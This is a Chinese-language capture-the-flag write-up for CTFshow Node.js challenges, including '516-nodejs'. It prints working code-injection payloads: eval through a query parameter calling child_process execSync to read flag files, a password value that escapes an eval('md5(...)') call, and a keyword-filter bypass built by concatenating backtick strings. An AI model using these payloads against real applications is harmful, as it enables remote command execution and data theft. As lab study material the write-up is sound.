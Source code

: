 对user有过滤，可以利用其他参数传入payload

```
index.php?a=require('child_process').execSync('cat /f*')

POST:
user=eval(req.query.a)
```

## 516-nodejs

注册登录，得到的是用户名、id号以及md5(密码)，关键代码：

```js
// route/index.js
ctx.body='<h3>Hello '+user[0].username+'</h3> your name is: '+user[0].username+' your id is: '+user[0].id+ ' your password is: '+eval('md5('+user[0].password+')');

eval('md5('+user[0].password+')')
```

看到`eval('md5('+user[0].password+')')`，那么利用password构造闭合，不过要注意正则过滤

```php
app.use(async(ctx,next)=>{
	if(ctx.request.body.password!==undefined && (ctx.request.body.password.match(/proto|JSON|parse|process|require|exec|var|merge|response|body|request/))!==null){
		return
	}else{
		await next()
	}
```

构造payload：

```
username=123&password=123)+eval((require('child_process').execSync('cat /f*'))
就变成：
eval('md5('+'123)+eval((require('child_process').execSync('cat /f*'))'+')')

用反引号拼接一下：
username=123&password=123)+eval((`req`+`uire("chi`+`ld_proce`+`ss").ex`+`ecSync('ls')`)
```

看了下源码flag好像是admin用户的密码，应该是在数据库里

可以像群主那样构造查询语句，然后把结果带出来

![](https://i.loli.net/2021/11/23/uoyxgcltBndsXM5.png)

还有就是这种方法，但我不太明白为啥echo $FLAG就行--，好奇怪，可能是nodejs的特性？

```
/signup

POST:
username=123&password=123)%2Beval((%60req%60%2B%60uire(%22chi%60%2B%60ld_proce%60%2B%60ss%22).ex%60%2B%60ecSync('echo%20%24FLAG')%60)
```



## 参考

[CTFshow——中期测评_D.MIND 的博客-CSDN博客_ctfshow 中期测评](https://blog.csdn.net/weixin_45669205/article/details/117093420)

[CTFshow-web入门-中期测评_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1jf4y1A75p)
